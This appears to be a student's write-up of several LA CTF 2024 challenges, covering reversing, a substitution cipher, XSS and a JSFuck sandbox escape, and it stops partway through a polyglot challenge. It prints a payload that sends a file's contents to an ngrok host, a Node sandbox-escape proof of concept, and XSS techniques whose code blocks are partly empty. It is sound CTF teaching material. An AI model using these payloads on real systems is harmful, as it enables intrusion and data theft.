




As [ACM Cyber at UCSD][acmucsd], we played as one team for [LA CTF][lactf], hosted by [ACM Cyber at UCLA][acmucla]. Since the Open Division (i.e. non-UCLA) has no team size restriction, one could say that our team encompasses all of UCSD. Altogether, we placed 18th globally, of over 1000 teams, and solved 38 of the 53 challenges available.

[acmucsd]: https://acmucsd.com/communities#Cyber
[acmucla]: https://www.acmcyber.com/
[lactf]: https://lac.tf/

Here are the challenges I worked on, listed hardest (i.e. most interesting) first:

- [**web/quickstyle**](#webquickstyle): CSS injection with a bit of DOM clobbering. Unlike other CSS injection challenges, you must exfiltrate the flag with a single CSS file, and it has to be under 6 MB. This involved graph theory also used in bioinformatics.
- [**misc/jsfudge**](#miscjsfudge): [JSFuck][jsfuck] with some slight adjustments.
- [**rev/glottem**](#revglottem): Building a list of possible flags, character by character. Because this list grows exponentially, I manually intervened to keep only the partial flags that looked like English.
- [**web/new-housing-portal**](#webnew-housing-portal): XSS.
- [**crypto/selamat pagi**](#cryptoselamat-pagi): Frequency analysis, and the Indonesian Wikipedia.
- [**rev/aplet321**](#revaplet321): Decompiled the binary to find a system of equations to solve.
- [**rev/shattered-memories**](#revshattered-memories): [`strings`][strings].

[jsfuck]: https://jsfuck.com/
[strings]: https://en.wikipedia.org/wiki/Strings_(Unix)

The following sections are listed in chronological order of when we solved it. I like to work on problems easiest first. I recommend at least jumping to [web/quickstyle](#webquickstyle) since I think it's the most interesting challenge (an attack using just CSS).

## rev/shattered-memories

> **rev/shattered-memories**
> by aplet123.
> 697 solves / 115 points
>
> I swear I knew what the flag was but I can't seem to remember it anymore... can you dig it out from my inner psyche?
>
> **Downloads**:
> [shattered-memories](https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/shattered-memories/shattered-memories)

This was the first challenge I looked at. I tried looking at the assembly, but then a teammate walked by, glanced at it, and suggested using `strings` on it.

```shell
$ strings ./shattered-memories
What was the flag again?
No, I definitely remember it being a different length...
t_what_f
t_means}
nd_forge
lactf{no
orgive_a
No, that definitely isn't it.
I'm pretty sure that isn't it.
I don't think that's it...
I think it's something like that but not quite...
There's something so slightly off but I can't quite put my finger on it...
Yes! That's it! That's the flag! I remember now!
;*3$"
```

Well, there are pieces of the flag:

- `t_what_f`
- `t_means}`
- `nd_forge`
- `lactf{no`
- `orgive_a`

And so the rest of the challenge was just putting the pieces together, which I did manually: `t_what_f` made the most sense after `no` to form "not"; the `f` completes the beginning of "forgive" in `orgive_a`; and "and" with `nd_forge`; leaving `t_means}`.

The flag is `lactf{not_what_forgive_and_forget_means}`.

## rev/aplet321

> **rev/aplet321**
> by kaiphait.
> 445 solves / 199 points
>
> Unlike Aplet123, Aplet321 might give you the flag if you beg him enough.
>
> `nc chall.lac.tf 31321`
>
> **Downloads**:
> [Dockerfile](https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/aplet321/Dockerfile) [aplet321](https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/aplet321/aplet321)

The [teammate from earlier](#revshattered-memories) had already solved it, and was reeling with laughter from the solution, but he didn't submit the flag.

He suggested I install [Ghidra][ghidra], but its installation seemed too involved (it's a large ZIP file, and it requires having Java installed and running a script I couldn't find after finally extracting everything). So I uploaded the file to [Dogbolt][dogbolt-aplet321] instead.

[ghidra]: https://ghidra-sre.org/
[dogbolt-aplet321]: https://dogbolt.org/?id=4c61df44-da40-4158-80b4-f4155fbf227e

```c
setbuf(stdout,(char *)0x0);
puts("hi, i\'m aplet321. how can i help?");
fgets(&local_238,0x200,stdin);
sVar2 = strlen(&local_238);
if (5 < sVar2) {
  iVar4 = 0;
  iVar5 = 0;
  pcVar3 = &local_238;
  do {
    iVar1 = strncmp(pcVar3,"pretty",6);
    iVar5 = iVar5 + (uint)(iVar1 == 0);
    iVar1 = strncmp(pcVar3,"please",6);
    iVar4 = iVar4 + (uint)(iVar1 == 0);
    pcVar3 = pcVar3 + 1;
  } while (pcVar3 != acStack_237 + ((int)sVar2 - 6));
  if (iVar4 != 0) {
    pcVar3 = strstr(&local_238,"flag");
    if (pcVar3 == (char *)0x0) {
      puts("sorry, i didn\'t understand what you mean");
      return 0;
    }
    if ((iVar5 + iVar4 == 0x36) && (iVar5 - iVar4 == -0x18)) {
      puts("ok here\'s your flag");
      system("cat flag.txt");
      return 0;
    }
    puts("sorry, i\'m not allowed to do that");
    return 0;
  }
}
puts("so rude");
return 0;
```

`local_238` has the user input, and `sVar2` is its length (which must be greater than 5 characters).

`pcVar3` seems to be like `i` in a for loop, incrementing in every iteration. It's a pointer to the current character in the loop and compares the next 6 characters from the pointer to `pretty` and `please`, incrementing `iVar5` and `iVar4` if so, respectively. The loop probably stops 6 characters before the end of the string (with the `sVar - 6`). This part counts the number of `pretty`s and `please`s in the input.

In JavaScript, the equivalent code might look something like this:

```js
let pretties = 0
let pleases = 0
for (let i = 0; i < input.length - 6; i++) {
  pretties += input.slice(i, i + 6) === 'pretty'
  pleases += input.slice(i, i + 6) === 'please'
}
```

Then, later, before printing the contents of `flag.txt`, it checks if `(iVar5 + iVar4 == 0x36) && (iVar5 - iVar4 == -0x18)`. This is a system of equations:

$$
\begin{cases}
  a + b = 54 \\
  a - b = -24
\end{cases}
$$

So that's $2a = 30 \to a = 15$ `pretty`s and $2b = 78 \to b = 39$ `please`s.

```js
> 'pretty'.repeat(15) + 'please'.repeat(39)
'prettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettypleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleaseplease'
```

```shell
$ nc chall.lac.tf 31321
hi, i'm aplet321. how can i help?
prettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettypleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleaseplease
sorry, i didn't understand what you mean
```

Why didn't that work? Well, there's also the `strstr(&local_238,"flag")` line that can't be `0x0`. [`strstr`][strstr] finds the second string, `flag`, in the first string, which is the input, and returns null if it can't find it. So I just need to add `flag` to my input:

```shell
$ nc chall.lac.tf 31321
hi, i'm aplet321. how can i help?
prettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettyprettypleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleasepleaseflag
ok here's your flag
lactf{next_year_i'll_make_aplet456_hqp3c1a7bip5bmnc}
```

That is a pretty amusing way to get a flag.

[strstr]: https://cplusplus.com/reference/cstring/strstr/

## crypto/selamat pagi

> **crypto/selamat pagi**
> by AVDestroyer.
> 331 solves / 275 points
>
> If you talk in another language, nobody can understand what you say! Check out this message I sent in Indonesian. To add some extra security, I also applied a monoalphabetic substitution cipher on it!
>
> **Downloads**:
> [message.txt](https://github.com/uclaacm/lactf-archive/blob/main/2024/crypto/selamat-pagi/message.txt)

```
Efe kqkbkx czwkf akfs kdkf qzfskf wzdcjtfk
Ieqku kqk akfs ikxj kck akfs wkak ukikukf :Q
Lzfqztk ukdj kqk qe wefe: bkvim{wzbkdki_ckse_kckukx_ukdj_wjuk_kfkbewew_mtzujzfwe}
```

I wasn't the one who started working on this one. I just heard Indonesian mentioned and was like, "languages?"

Our team used [dcode.fr's substitution cipher tool][dcode] to plug in letters visually.

`bkvim` is very likely to be `lactf`:

```
... a.ala. ...a. .a.. a.a. ....a. .......a
t..a. a.a .a.. ta.. a.a .a.. .a.a .ata.a. :.
......a .a.. a.a .. ....: lactf{..la.at_.a.._a.a.a._.a.._...a_a.al...._f........}
```

Our team had been plugging words into Google Translate to see what words could be. I thought that "flag" would very likely be in the text, so I used Wiktionary to look up the Indonesian translation for "flag": [_bendera_][bendera]. Their [Wikipedia article for the Indonesian flag][wiki] also uses _bendera_.

[bender]: https://en.wiktionary.org/wiki/bendera#Indonesian
[wiki]: https://id.wikipedia.org/wiki/Bendera_Indonesia
[dcode]: https://www.dcode.fr/monoalphabetic-substitution

The only 7-lever word that could fit _bendera_ was `......a`. Putting the letters in produces:

```
.n. adala. .e.an .an. a.an den.an .e...rna
t.da. ada .an. ta.. a.a .an. .a.a .ata.an :d
bendera .a.. ada d. ..n.: lactf{.ela.at_.a.._a.a.a._.a.._...a_anal...._fre..en..}
```

Maybe you can already see it, but my teammates, from plugging in other words, had already identified other letters like U and S:

```
.n. adala. .esan .an. a.an den.an se..urna
t.da. ada .an. ta.u a.a .an. sa.a .ata.an :d
bendera .a.u ada d. s.n.: lactf{sela.at_.a.._a.a.a._.a.u_su.a_anal.s.s_fre.uens.}
```

That `anal.s.s_fre.uens.` looks a lot like "frequency analysis." My teammates tried to plug in Q and Y, which I think is a bit English-minded because Q and Y are extremely unusual letters to use for the sounds /k/ and /i/. Particularly for a language that adopted the Latin alphabet, using K and I for those phonemes is much more common.

```
ini adala. .esan .an. a.an den.an se..urna tidak ada .an. ta.u a.a .an. sa.a katakan :d bendera ka.u ada di sini: lactf{sela.at_.a.i_a.aka._ka.u_suka_analisis_frekuensi}
```

I wasn't around when they finished the rest of the letters, but it was pretty quick. For example, Google autocomplete for _ini adala_ gives _ini adalah kerana_, so the letter after _adala_ must be H. Also, `sela.at` looks like it could be _selamat_ from the challenge name. And the word after, `.a.i`, could be _pagi_. And while this is already enough for the flag, there's still a missing letter remaining in `.ang`. Going down this [Indonesian letter frequency list][indofreq], it seems the most frequent letter we haven't used yet is Y. This produces:

```
Ini adalah pesan yang aman dengan sempurna
Tidak ada yang tahu apa yang saya katakan :D
Bendera kamu ada di sini: lactf{selamat_pagi_apakah_kamu_suka_analisis_frekuensi}
```

And through Google Translate:

> This is a perfectly secure message
>
> No one knows what I said :D
>
> Your flag is here: `lactf{good_morning_do_you_like_frequency_analysis}`

[indofreq]: https://www.sttmedia.com/characterfrequency-indonesian

## web/new-housing-portal

> **web/new-housing-portal**
> by r2uwu2.
> 214 solves / 368 points
>
> After that old portal, we decided to make a new one that is ultra secure and not based off any real housing sites. Can you make Samy tell you his deepest darkest secret?
>
> Hint - You can send a link that the admin bot will visit as samy.
>
> Hint - Come watch the real Samy's talk if you are stuck!
>
> Site - [new-housing-portal.chall.lac.tf](https://new-housing-portal.chall.lac.tf/)
>
> Admin Bot - <https://admin-bot.lac.tf/new-housing-portal>
>
> **Downloads**:
> [new-housing-portal.zip](https://github.com/uclaacm/lactf-archive/tree/main/2024/web/new-housing-portal)

Someone in the room mentioned JavaScript, which got my attention. They were apparently just too lazy to write the XSS payload for this challenge, so I decided to try it.




The website is a roommate finder[^1]. On the "Find Roomates" page, you search users by their username, then invite them. The "View Invitations" page lists the invites that were sent to you.

[^1]: Something I never got to use at UCSD because UCSD didn't have a two-year housing guarantee.

The vulnerability is somewhat obvious by looking at the source code, which is both conveniently provided in the ZIP file and the page source.

<!-- prettier-ignore -->
```js
// src/finder/index.js
const params = new URLSearchParams(location.search);
const query = params.get('q');
if (query) {
  (async () => {
    const user = await fetch('/user?q=' + encodeURIComponent(query))
      .then(r => r.json());
    if ('err' in user) {
      $('.err').innerHTML = user.err;
      $('.err').classList.remove('hidden');
      return;
    }
    $('.user input[name=username]').value = user.username;
    $('span.name').innerHTML = user.name;
    $('span.username').innerHTML = user.username;
    $('.user').classList.remove('hidden');
  })();
}
```

<!-- prettier-ignore -->
```js
// src/request/index.js
const { invitations } = await fetch('/invitation').then(r => r.json());
$('.invitations').innerHTML = invitations.map((inv) => `
  <div class="invitation">
    <div class="col">
      <div class="from">From: ${inv.from}</div>
      <div class="secret">Deepest Darkest Secret: ${inv.deepestDarkestSecret}</div>
    </div>
    <div class="col">
      <button>Accept</button>
    </div>
  </div>
`).join('\n');
```

Both of these pages use `innerHTML` without any sanitization, so a standard XSS payload like `` should work. This tries to load a nonexistent image at `/x` and fails, running the JavaScript in the `onerror` handler.

It seems any of the values on the registration page---the username, name, and the "Deepest Darkest Secret"---are all opportunities for XSS.

So where's the flag? The provided ZIP also has the server code:

<!-- prettier-ignore -->
```js
// src/server.js
users.set('samy', {
  username: 'samy',
  name: 'Samy Kamkar',
  deepestDarkestSecret: process.env.FLAG || 'lactf{test_flag}',
  password: process.env.ADMINPW || 'owo',
  invitations: [],
  registration: Infinity
});
```

So I need to get Samy's deepest, darkest secret for the flag. It displays deepest darkest secrets on the invitations page, so I just need to get Samy to invite me. Using the admin bot, I need to get Samy on a page that has my XSS on it to make him invite me.

There are a few opportunities for this:

- I could sign up with an XSS payload in my name or username, then send him a link to `https://new-housing-portal.chall.lac.tf/finder/?q=<username>`, where it will show the name/username with the XSS payload.
- I could invite Samy and send him a link to `https://new-housing-portal.chall.lac.tf/request/`. My invitation, with the XSS payload in the name[^2], would show up on his page.

[^2]: The deepest darkest secret doesn't work because the server just sets it to `todo` for all non-Samy users.

I opted for the second strategy.

To make Samy invite me, I just had to create an account with its name set to an XSS payload. It should mimic the HTTP request that the website makes when I send an invite. With inspect element's network log open, I invited a user `b`, then copied the POST request entry as fetch. Here's the request, with irrelevant headers removed:

```http
POST /finder HTTP/1.1
Host: new-housing-portal.chall.lac.tf
Content-Type: application/x-www-form-urlencoded

username=b
```

The following HTML makes the same POST request, except for it invites my username, `a`, instead.

<!-- prettier-ignore -->
```js

```

I created a new account in incognito mode with its name set to the HTML, then I invited myself. Then, in my invitations, I saw a broken image:

![Invitations to room with you: From: [broken image] Deepest Darkest Secret: todo](../images/lactf/nhp-invite.png)

I checked the network log to see what it sent.


So why didn't it work?

After playing around with my code, I realized why when I looked at what my code was sending:



It seems by using JavaScript's `FormData` object, it always wraps its data in some `WebKitFormBoundary`, which the server doesn't seem to accept. So I got rid of it and set the `Content-Type` manually instead:

```js
fetch('/finder', {
  method: 'POST',
  headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
  body: 'username=b'
})
```

Running this in the console seemed successful based on the network log.


So, I created a new account with the fixed HTML:

<!-- prettier-ignore -->
```js

```

I invited `samy`, then made the admin bot visit `https://new-housing-portal.chall.lac.tf/request/`. I checked my invitations:



## misc/jsfudge

> **misc/jsfudge**
> by r2dev2.
> 31 solves / 486 points
>
> JsFudge this JsFudge that, why don't you JsFudge the flag.
>
> `nc chall.lac.tf 31130`
>
> **Downloads**:
> [Dockerfile](https://github.com/uclaacm/lactf-archive/blob/main/2024/misc/jsfudge/Dockerfile) [index.js](https://github.com/uclaacm/lactf-archive/blob/main/2024/misc/jsfudge/index.js)

Most of the telltale clues are in the `runCode` definition in index.js, which ultimately just `eval`s whatever code you submit. However, there's two catches:

<!-- prettier-ignore -->
```js
const allowed = new Set('()+[]!');
for (const char of code) {
  if (!allowed.has(char)) {
    console.log('Oops, make sure to only use characters "()+[]!"');
    return;
  }
}
```

This means `code` must only use `()+[]!`. This is infamously [JSFuck][jsfuck]'s character set, where all of JavaScript can be executed using just those characters. The [JSFuck website][jsfuck] has a converter for arbitrary JS into equivalent JavaScript that only uses the characters in `()+[]!`.

However, you can't just use the convert for this challenge:

<!-- prettier-ignore -->
```js
// hehe ^w^
const oldProto = [].__proto__.toString;
[].__proto__.toString = () => '^w^';
```

Normally, JavaScript arrays, when casted to a string, will cast each of its elements to a string then join them together with a comma `,`. For example, `'' + [1, 2, 3]` produces the string `1,2,3`. However, the effect of this is that casting arrays to strings always returns the string `^w^` instead of the contents of the array.

What does this change? Well, JSFuck relies on JavaScript's current array-to-string behavior for two important values:

- Producing zero. Currently, casting an empty array `[]` to a string produces the empty string. An empty string casted to a number is 0. Since using `+` as a unary operator only makes sense for numbers, JavaScript will cast values to a number if you use `+` on it. So, `+[]` produces 0 in JavaScript.

  But now that `[]` becomes `^w^`, `+[]` becomes `+'^w^`. `^w^` is not a number, so this becomes `NaN` instead of 0.

  Fortunately, the workaround is to cast `NaN` into a boolean using `!` (the logical NOT operator)---`NaN` is falsy, so it becomes `false`---then cast `false` to a number, 0. `+!!+[] == +!!+'^w^' == +!!NaN == +!true == +false == 0`

  However, this doesn't break creating non-zero numbers. JSFuck takes advantage of 0 being falsy, and inverting it makes it `true`. Casting `true` to a number produces 1, which you can add to itself to produce the natural numbers: `+!+[]` is 1, `+!+[]+!+[]` is 2, and so on.

- Casting to a string. Since an empty array becomes an empty string, you can add it to any value to turn it into a string. `![]+[]` becomes the string `'false'`, and so on.

  With the `^w^` change, `![]+[]` becomes `false^w^`. This doesn't actually break too many things because much of JSFuck involves getting letters of keywords, like doing `(![]+[])[2]` for the letter `l`; adding `^w^` to the end of the string doesn't affect this.

  However, this change does affect numbers. JSFuck's convert in particular much prefers values like `10` over `9`, which is smaller but has a larger sum of digits. This is because producing 10 only involves concatenating 1 and 0, then casting it to a number (`+(+!+[] + [+[]]) == +(1 + [0]) == +(1 + '0') == +'10' == 10`), while producing 9 requires adding 1 to itself nine times.

  Now, even when fixing 0 by replacing `+[]` with `+!!+[]` as discussed above, `+(+!+[] + [+!!+[]])` instead evaluates to `+(1 + [0])` then `+(1 + '0^w^')` then `+'10^w^'` then `NaN`. Sad!

  Maybe there's a smarter way around this. But I'm not optimizing for code length; I just need my code to work. So I just replaced these two-digit numbers with 1 added to itself ten or more times.

I wanted to try just returning `[].__proto__.toString` back to its original form, so I put it into JSFuck's converter and tried to fix any issues caused by the change. These were the substitutions I did to code generated by JSFuck:

- 0: `[+[]]` → `[+!!+[]]`

  0 was most often used to index into strings, which is why it's in square brackets.

- 10: `+!+[]+[+!!+[]]` → `!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]`

- 11: `[+!+[]+[+!+[]]]` → `[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]`

  This was for the letter `m`.

- 12: `+!+[]+[!+[]+!+[]]` → `!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]`

- `i`: `([![]]+[][[]])[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]` → `([][[]]+[])[!+[]+!+[]+!+[]+!+[]+!+[]]`

  The original way used `'falseundefined'[10]` because it probably produced shorter code, but now it becomes `'^w^undefined'[10]`, which is `undefined` and usually results in a TypeError. I replaced it with `'undefined^w^'[5]`.

- `/`: `(![]+[+!!+[]])[([][[]]+[])[!+[]+!+[]+!+[]+!+[]+!+[]]+(!![]+[])[+!!+[]]+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+([][[]]+[])[!+[]+!+[]+!+[]+!+[]+!+[]]+([][(![]+[])[+!!+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+!!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]]()[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]` → `(![]+[+!!+[]])[([][[]]+[])[!+[]+!+[]+!+[]+!+[]+!+[]]+(!![]+[])[+!!+[]]+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+([][[]]+[])[!+[]+!+[]+!+[]+!+[]+!+[]]+([][(![]+[])[+!!+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+!!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]]()[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]`

  JSFuck gets `/` by calling `'false0'.italics()`, which wraps it into `<i>false0</i>`. This string was probably selected for its shorter code length, but because it relies on concatenation it becomes `<i>false^w^</i>`, which changes the index of `/` in the string.

  What's `/` for? JSFuck uses it to create a function[^10] with body `return/false/`, which returns a `RegExp` object instance. It can then do `/false/.constructor` to get the `RegExp` constructor, then construct `RegExp('/')` which creates a regular expression that just has a `/`. However, in JavaScript's regular expression literals, `/` must be escaped, so casting `RegExp('/')` to a string produces a string containing `/\//`.

  So `Function('return/false/').constructor('/') + ''` is how JSFuck gets a backslash character `\`.

And what's the backslash character for? The underscore character `_` for `__proto__`. JSFuck creates a function that returns a string with an octal escape sequence, then calls it: `Function('return"\137"')()`.

[^10]: You might be wondering how JSFuck can create a function in the first place. You can get `a` from `false` and `t` from `true`, and arrays have an `at` method. `[]['a' + 't']` gives access to a function. It's also possible to get the letters in `constructor`, so you can use `[]['at']['constructor']` to get a reference to `Function`. You can use `Function` to convert strings to functions; for example, `Function('return 3')` creates a function that returns 3.

In doing this, I realized that my plan of trying to reset `[].__proto__.toString` wouldn't work because I also needed access to the original `Array.prototype.toString`. While I felt like it was possible, I couldn't be bothered to try to investigate and fix more issues caused by an even longer string needed.

However, I realized that from investigating how the `_` code works, I could adapt it to get any character I wanted. All I needed to do was write a script:

<!-- prettier-ignore -->
```js
[].__proto__.toString=()=>'^w^'
backslash = `...`
// create octal codes
w=(Array.from(`require('https').get('https://57e8-104-177-117-127.ngrok-free.app/' + require('fs').readFileSync('.vimrc').toString())`, c => `${backslash}+(${'!+[]+'.repeat(+c.codePointAt().toString(8)).slice(0, -1)})`).join('+'))
// return string of octal codes
w=`...${w}...`
// eval string expression
w=`[][...]
(${w})
()`
// eval it
w=`[][...]
(${w})
()`
w = w.replace(/\s/g, '')
console.log(w)
```

What this does is,

1. Store the JSFuck code for a backslash character in `backslash` for convenience.

2. Split the code of the attack script I want to execute into characters, convert the characters into an octal escape sequence (`backslash` + the code point of the character in base 8), then join them all together with `+` signs. This sets `w` to code to generate a long string of octal sequences.

3. Wrap `w` in code that puts the octal sequences in a string literal. This is essentially the same as

   ```js
   w = `return "${w}"`
   ```

4. Wrap `w` in code that converts the string into a function then calls it.

   ```js
   w = `Function(${w})()`
   ```

   All this is just to produce a string containing the original attack script.

5. Wrap `w` again to actually call my script:

   ```js
   w = `Function(${w})()`
   ```

So I ran the script to generate code, which I pasted into a casual 350-kB file that I piped into the `nc` server.

```shell
$ cat test/lactf-jsfudge.js | nc chall.lac.tf 31130
Gimme some js code to run
oopsie woopsie stinki poopie ReferenceError: require is not defined
    at eval (eval at <anonymous> (eval at runCode (/app/run:16:21)), <anonymous>:3:1)
    at eval (eval at runCode (/app/run:16:21), <anonymous>:1:350288)
    at runCode (/app/run:16:21)
    at /app/run:31:5
    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)
```

What?

Even though it didn't look like it in index.js, `eval` seemed to be sandboxed somehow, and `require` wasn't directly available.

Okay, fine. I vaguely recalled from a [prior challenge][prior] that it can be fairly trivial to bypass this. I looked online and found [this vulnerability][vuln], which gave a pretty simple proof of concept:

[prior]: http://127.0.0.1:4000/longer-tweets/ctf/#ctf-node-calculator-escape-vm-codegeneration-false
[vuln]: https://security.snyk.io/vuln/SNYK-JS-SAFEEVAL-3373064

<!-- prettier-ignore -->
```js
const safe_eval = require('safe-eval')
code = `
import('test').catch((e)=>{})['constructor']['constructor']('return process')().mainModule.require('child_process').execSync('touch rce')
`
safe_eval(code)
```

This gets a `Promise` object's constructor (`Promise`)'s constructor (`Function`) to create a function that returns `process`, then access `require` via `process.mainModule.require`.

My exfiltration script looked very similar:

<!-- prettier-ignore -->
```js
console.log(import('fs').constructor.constructor('return process')().mainModule.require('fs').readFileSync('flag.txt').toString())
```

```shell
$ cat test/lactf-jsfudge.js | nc chall.lac.tf 31130
Gimme some js code to run
lactf{d0_y0u_f331_pr0ud}

oopsie woopsie stinki poopie TypeError: Cannot read properties of undefined (reading 'toString')
    at runCode (/app/run:17:25)
    at /app/run:31:5
    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)
```

Here's links to [lactf-jsfudge.js][gen] (392 kB) and the [code that generates it][gener].

[gen]: ../files/lactf/lactf-jsfudge.js
[gener]: ../files/lactf/jsfudge-codegen.js

## rev/glottem

> **rev/glottem**
> by aplet123.
> 89 solves / 455 points
>
> Haha glottem good!
>
> Note: The correct flag is 34 characters long.
>
> **Downloads**:
> [glottem](https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/glottem/glottem)

This is a pretty cool challenge.

```sh
#!/bin/sh
1<<4201337
1//1,"""
exit=process.exit;argv=process.argv.slice(1)/*
4201337
read -p "flag? " flag
node $0 "$flag" && python3 $0 "$flag" && echo correct || echo incorrect
1<<4201337
*///""";from sys import argv
e = [...]
alpha="abcdefghijklmnopqrstuvwxyz_"
d=0;s=argv[1];1//1;"""
/*"""
#*/for (let i = 0; i < s.length; i ++) {/*
for i in range(6,len(s)-2):
    #*/d=(d*31+s.charCodeAt(i))%93097/*
    d+=e[i-6][alpha.index(s[i])][alpha.index(s[i+1])]#*/}
exit(+(d!=260,[d!=61343])[0])
4201337
```

(That `e = [...]` line is a long 3D array of numbers ranging from 10 to 17.)

The `#!/bin/sh` line suggests that it's a Bash script (more accurately, just `sh` for shell). But other lines in the code, as hinted by the `node` and `python3` commands, suggest that it might also be a JavaScript and Python file. It's a [polyglot] (hence the challenge name)!

[polyglot]: https://en.wikipedia.org/wiki/Polyglot_(computing)

The syntax highlighting might not show it very well, but in Bash, the first and last commands don't do anything:

```sh
1<<4201337
1//1,"""
exit=process.exit;argv=process.argv.slice(1)/*
4201337
```

My impression of this is that `4201337` is just a string to indicate the start and end of a raw string, so you don't have to worry about escaping any characters inside there. I thought that maybe `<<` is like how `>>` is to `>`, where it pipes the contents of some file with that name into a command `1`, which is an alias for true. While writing this write-up, I looked up what `<<` does, and I appear to be completely wrong. Oh well.

So the only relevant lines, from Bash's point of view, are

```sh
e = [...]
read -p "flag? " flag
node $0 "$flag" && python3 $0 "$flag" && echo correct || echo incorrect
```

1. The first command stores a list in `e`, which isn't used anywhere. It doesn't do anything.
2. The second command asks the user for the flag and stores it in a variable `flag`.
3. The third command passes the flag to Node and Python, running it on the same `glottem` file. If they both pass, then it echoes `correct`.

So I just need the Node and Python interpretations to accept my flag.

In JavaScript, the code looks like this:

<!-- prettier-ignore -->
```js
#!/bin/sh
1<<4201337
1//1,"""
exit=process.exit;argv=process.argv.slice(1)/*
4201337
read -p "flag? " flag
node $0 "$flag" && python3 $0 "$flag" && echo correct || echo incorrect
1<<4201337
*///""";from sys import argv
e = [...]
alpha="abcdefghijklmnopqrstuvwxyz_"
d=0;s=argv[1];1//1;"""
/*"""
#*/for (let i = 0; i < s.length; i ++) {/*
for i in range(6,len(s)-2):
    #*/d=(d*31+s.charCodeAt(i))%93097/*
    d+=e[i-6][alpha.index(s[i])][alpha.index(s[i+1])]#*/}
exit(+(d!=260,[d!=61343])[0])
4201337
```

The numbers, `1<<4201337`, `1`, and `4201337` don't do anything. While JavaScript's comment syntax uses `//`, it also ignores lines starting with `#!` at the beginning of the file.[^11]

[^11]: This was originally a Node-specific feature but has recently been [standardized into JavaScript][shebang], adding a fourth comment syntax to JavaScript's existing family of `//`, `/* */`, and `<!-- -->`.

[shebang]: https://github.com/tc39/proposal-hashbang

This leaves the following lines:

```js
exit=process.exit;argv=process.argv.slice(1)
e = [...]
alpha="abcdefghijklmnopqrstuvwxyz_"
d=0;s=argv[1];
for (let i = 0; i < s.length; i ++) {
  d=(d*31+s.charCodeAt(i))%93097
}
exit(+(d!=260,[d!=61343])[0])
```

Interestingly, this doesn't use `e` either. It creates aliases for `exit` and `argv` so some of the statements can be the same in Python and JavaScript.

`s` is the flag (including the `lactf{...}` part), and it loops over each character's code point and does some math with it. The `%93097` is a bit annoying because modular arithmetic is hard to undo.

The final line, `exit(+(d!=260,[d!=61343])[0])`, is interesting and I'll ramble more about it when looking at Python. But ultimately, `d` just needs to equal `61343` at the end for the script to exit with 0, which means success in Bash.

